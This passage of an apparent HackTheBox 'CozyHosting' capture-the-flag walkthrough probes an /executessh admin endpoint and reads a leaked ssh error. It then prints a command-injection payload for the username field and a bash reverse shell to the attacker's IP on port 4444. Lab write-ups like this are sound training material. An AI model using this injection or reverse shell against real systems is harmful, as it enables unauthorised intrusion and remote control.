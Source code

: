 ![](https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2FskdByKhrTDrekGP0vU0U%2Fuploads%2F5hDrYfRie29Ow3jGfnJJ%2Fimage.png?alt=media&token=57083118-3c63-472a-91c7-d0f627944648)


In the raw HTML for the admin dashboard, we see that "Connection Settings" has an action assigned as `/executessh`. This did not appear in the `dirsearch`. I spent some time trying to figure this out as I was using the wrong requests in my repeater trying different combinations to get the `/executessh` to show anything other than an error page.

Let's start by adding to our request header a host and username. I am changing it to a `POST` request and try my host IP and a blank username:

```HTTP/1.1 302

Server: nginx/1.18.0 (Ubuntu)

Date: Thu, 29 Feb 2024 17:40:11 GMT

Content-Length: 0

Location: http://cozyhosting.htb/admin?error=usage: ssh [-46AaCfGgKkMNnqsTtVvXxYy] [-B bind_interface] [-b bind_address] [-c cipher_spec] [-D [bind_address:]port] [-E log_file] [-e escape_char] [-F configfile] [-I pkcs11] [-i identity_file] [-J [user@]host[:port]] [-L address] [-l login_name] [-m mac_spec] [-O ctl_cmd] [-o option] [-p port] [-Q query_option] [-R address] [-S ctl_path] [-W host:port] [-w local_tun[:remote_tun]] destination [command [argument ...]]

Connection: close

X-Content-Type-Options: nosniff

X-XSS-Protection: 0

Cache-Control: no-cache, no-store, max-age=0, must-revalidate

Pragma: no-cache

Expires: 0

X-Frame-Options: DENY

```

In the location attribute, we get an error relating to ssh. Again, I receive another hint and determine that there is an exploit here, likely a payload in username or host IP, so do more research.

I came across a payload to put into the username field:
```
;echo${IFS}"[ PAYLOAD ]"|base64${IFS}-d|bash;

```

For the payload, I want to send a bash shell to my IP at port 4444. To do that I need this command in base64 and then I replace it in the `[ PAYLOAD ]` placeholder above:

```
"bash -i >& /dev/tcp/10.10.14.83/4444 0>&1"

```
